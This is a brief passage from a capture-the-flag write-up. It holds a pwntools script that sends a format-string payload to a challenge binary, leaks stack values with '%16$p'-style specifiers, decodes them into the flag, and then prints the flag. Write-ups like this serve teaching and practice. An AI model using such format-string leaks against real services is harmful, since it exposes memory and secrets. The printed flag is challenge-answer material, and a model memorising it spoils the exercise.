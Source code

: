 ```python=
p.sendline('3')
p.sendline('%16$p %17$p %18$p %19$p %20$p %21$p')

p.recvuntil("Please give us your feedback!\n")
s = p.recvline()[:-1].split(' ')
flag = ''
for i in s:
	flag += p64(int(i, 16))
info("flag: %s"%flag[:-2])
p.interactive()
```

## Flag:
```inctfj{4ll_y0u_n33d_15_4_l177l3_f0rm4771ng!!}```
